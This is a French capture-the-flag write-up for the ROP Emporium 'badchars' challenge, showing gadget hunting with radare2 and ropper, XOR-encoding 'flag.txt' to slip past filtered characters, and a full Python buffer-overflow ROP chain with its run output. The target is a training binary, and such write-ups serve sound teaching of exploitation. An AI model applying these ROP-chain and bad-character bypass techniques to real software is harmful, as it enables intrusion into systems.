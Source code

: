 # 05: badchars 



On veut écrire flag.txt en mémoire, et appeler print_file() 
Les caractères 'x', 'g', 'a', '.' sont filtrés.
On va xor encoder notre message 


## Xor Bypass 

On calcule tous les xor de 1 à 255, et on prend lepremier qui n'a aucun char interdit
```
$ ./exploit.py
^2
b'646e63652c767a76'
```

Un flag.txt Xor 2 = dnce,vzv => 0x646e63652c767a76 permet de bypass le filtre  
xored_string=p64(0x646e63652c767a76)

## where 

```
$ r2 badchars
[0x00400520]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
...
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
...
```

writable_addr = p64(0x00601038)

## gadget: mov

```
$ ropper -f badchars | grep mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400635: mov dword ptr [rbp], esp; ret; 
...
0x0000000000400634: mov qword ptr [r13], r12; ret; 
...
```
gadget_mov_r13_r12 = p64(0x0000000000400634)


## gadget: xor 

```
$ ropper -f badchars | grep xor
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400628: xor byte ptr [r15], r14b; ret; 
0x0000000000400629: xor byte ptr [rdi], dh; ret; 
```

gadget_xor_r15_r14 = p64(0x0000000000400628)


## gadget: pop 

```
$ ropper -f badchars | grep r12
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400634: mov qword ptr [r13], r12; ret; 
0x00000000004005e4: or r12b, byte ptr [r8]; add byte ptr [rcx], al; pop rbp; ret; 
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040069b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
```

gadget_pop_r12_r13_r14_r15 = p64(0x000000000040069c)

```
$ ropper -f badchars | grep r14
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040062c: add byte ptr [r15], r14b; ret; 
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040069e: pop r13; pop r14; pop r15; ret; 
0x00000000004006a0: pop r14; pop r15; ret; 
0x000000000040069b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040069f: pop rbp; pop r14; pop r15; ret; 
0x000000000040069d: pop rsp; pop r13; pop r14; pop r15; ret; 
0x0000000000400630: sub byte ptr [r15], r14b; ret; 
0x0000000000400628: xor byte ptr [r15], r14b; ret; 
```

gadget_pop_r14_r15 =p64(0x00000000004006a0)


## fct 

```
[0x00400520]> afl
0x00400520    1 42           entry0
0x004004d8    3 23           sym._init
0x004006b4    1 9            sym._fini
0x00400560    4 42   -> 37   sym.deregister_tm_clones
0x00400590    4 58   -> 55   sym.register_tm_clones
0x004005d0    3 34   -> 29   entry.fini0
0x00400600    1 7            entry.init0
0x00400617    1 17           sym.usefulFunction
0x00400510    1 6            sym.imp.print_file
0x004006b0    1 2            sym.__libc_csu_fini
0x00400640    4 101          sym.__libc_csu_init
0x00400550    1 2            sym._dl_relocate_static_pie
0x00400607    1 16           main
0x00400500    1 6            sym.imp.pwnme
```
print_file = p64(0x00400510)

## Gadgets to set rdi

```$ ropper -f badchars | grep rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040062d: add byte ptr [rdi], dh; ret; 
0x00000000004006a3: pop rdi; ret; 
0x0000000000400631: sub byte ptr [rdi], dh; ret; 
0x0000000000400629: xor byte ptr [rdi], dh; ret; 
```
gadget_pop_rdi = p64(0x00000000004006a3)

## Payload 

```
offset=40

xored_string=p64(0x646e63652c767a76, endianness="big")
xor_value=p64(2)
writable_addr = p64(0x00601038)
gadget_pop_r12_r13_r14_r15 = p64(0x000000000040069c)
gadget_mov_r13_r12 = p64(0x0000000000400634)
gadget_pop_r14_r15 = p64(0x00000000004006a0)
gadget_xor_r15_r14 = p64(0x0000000000400628)
gadget_pop_rdi = p64(0x00000000004006a3)
print_file = p64(0x00400510)

r12 = xored_string
r13 = writable_addr
r14 = xor_value
r15 = writable_addr

# Write dnce,vzv in .bss
payload = b'A'*offset \
    + gadget_pop_r12_r13_r14_r15 + r12 + r13 + r14 + r15 \
    + gadget_mov_r13_r12 

# ^2 each char
for i in range(8):
    payload +=  gadget_pop_r14_r15 + r14 + p64(0x00601038+i) \
    + gadget_xor_r15_r14    

# Call print_file
payload += gadget_pop_rdi + writable_addr \
    + print_file
```


## exploit 

```
$ ./exploit.py 
flag.txt^2=dnce,vzv
b'646e63652c767a76'
[*] '/home/yolo/yolo/BufferOverflows/ropemporium/05_badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] 0x400510 print_file
[+] Starting local process '/home/yolo/yolo/BufferOverflows/ropemporium/05_badchars/badchars': pid 154886
[*] Switching to interactive mode
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$  
```